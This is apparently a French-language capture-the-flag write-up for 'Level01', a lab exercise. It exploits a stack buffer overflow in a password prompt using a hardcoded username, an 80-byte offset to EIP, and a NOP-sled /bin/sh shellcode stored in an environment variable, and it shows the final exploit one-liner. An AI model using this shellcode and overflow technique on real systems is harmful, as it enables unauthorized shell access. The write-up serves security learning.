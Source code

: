 # Level01:

Ici quand nous executons le programme il nous demande un username et un password mais en regardant le code on voit qu'a aucun moment il n'y a d'appel de la fonction system... Il faut donc exploiter un **Buffer Overflow** sur le champ du password.

Le username se retrouve dans le source code et est "dat_wil".

Apres quelques tests le **Buffer Overflow** deborde sur EIP apres les 80 caracteres et permet donc de modifier le pointeur d'execution en le faisant pointer vers un shellcode.

On stock l'exploit dans une variable d'environement
`export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")`

Je lance gdb sur l'executable pour trouver la zone des variables d'environnement.

![exploit.png](./exploit.png)

**Le but est donc de retrouver notre shell code dans le block de memoire et d'extraire une adresse qui correspond au millieu des NOP (0x90)**

**La commande finale ressemble a ca**

`(python -c "print('dat_wil\n' + 'A' * 80 + '\x50\xd8\xff\xff')" ; cat) | ./level01`
`[ username + padding + overflow sur eip (donc adresse sur les NOP du shellcode)]`

![finaly.png](./finaly.png)